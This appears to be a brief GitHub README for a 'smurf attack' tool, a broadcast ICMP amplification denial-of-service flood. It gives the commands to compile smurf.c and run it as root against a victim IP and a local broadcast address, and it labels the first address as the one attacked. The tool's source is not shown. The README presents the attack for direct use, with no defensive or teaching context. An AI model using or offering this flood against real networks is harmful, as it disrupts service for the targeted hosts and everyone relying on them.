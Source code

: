 # smurf
smurf attack

gcc smurf.c  -o smurf
.sudo ./smurf 192.168.200.55 192.168.200.255

The first ip is attacked address, second is the local area network.
